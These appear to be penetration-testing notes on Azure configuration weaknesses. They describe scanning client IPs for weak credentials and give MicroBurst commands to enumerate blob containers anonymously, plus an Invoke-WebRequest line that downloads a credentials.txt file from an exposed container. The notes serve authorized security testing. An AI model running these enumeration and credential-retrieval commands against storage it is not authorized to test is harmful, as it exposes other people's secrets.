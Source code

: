 # Configuration-related vulnerabilities

## Categories:

### 1) IaaS configuration-related vulnerabilities

 - Azure IaaS services can be generalized as services that take the place of traditional
infrastructure. The most common resources are virtual machines, virtual machine scale
sets and Windows Virtual Desktops (WVDs). These services can be deployed privately
within a virtual network, connected to on-premises networks, or exposed to the internet
using a public IP address, as mentioned earlier in this chapter.

 - Using the list of public IP addresses that a client has provided to us from the results of the
commands in the Azure public IP address ranges section of this chapter, we can scan those
IP addresses with common vulnerability scanning tools. Remember to always check the IP
that you have been provided with for ownership and authorization.

 - For virtual machines and WVDs, we will typically be looking for weak or default
credentials for available management ports. It should also be noted that any IaaS hosts
that have internet-facing services could also have additional service misconfigurations.
These vulnerabilities are not limited to the parameters that are managed in Azure.
An administrator could misconfigure a service on a VM, expose it to the internet, and
create a vulnerability.

### 2) PaaS configutation-related vulnerabilities

## Example:

#### Misconfigured blob containers:

 - Import-Module MicroBurst.psm1

 - Invoke-EnumerateAzureBlobs -Base BASE_NAME (Anonymously enumerate storage account containers)

 - Invoke-WebRequest -Uri "https://azurepentesting.blob.core.windows.net/private/credentials.txt" -OutFile "credentials.txt" (Extract enumerated container found with MicroBurst)

## To use custom permutation wordlist we use the command:

 - Invoke-EnumerateAzurebLOBS -Base BASE_NAME -Folders .\CUSTOM_CONTAINER_WORDLIST.TXT
